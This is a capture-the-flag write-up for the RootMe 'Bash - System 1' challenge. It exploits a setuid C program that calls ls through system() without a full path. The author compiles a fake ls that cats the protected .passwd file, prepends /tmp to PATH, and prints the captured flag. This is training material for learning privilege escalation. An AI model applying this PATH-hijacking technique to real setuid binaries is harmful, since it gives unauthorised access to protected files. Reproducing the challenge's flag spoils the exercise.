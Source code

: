 ```yaml
---
title: RootMe BashSystem1 WriteUp
date: 2023-10-02 
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Bash - System 1

Source code from this challenge

```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("ls /challenge/app-script/ch11/.passwd");
    return 0;
}
```

so we need to change ls to cat somehow
we can copy that source to tmp and recompile with cat

```shell
cp ch11.c /tmp
vim /tmp/ch11.c
```

edit the sources

```c
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setreuid(geteuid(), geteuid());
    system("cat /challenge/app-script/ch11/.passwd");
    return 0;
}
```

compile with

```shell
gcc /tmp/ch11.c -o /tmp/ls
```

and then change PATH var and launch ch11 executable

```shell
export PATH=/tmp:$PATH
./ch11
```

we will get flag `!oPe96a/.s8d5`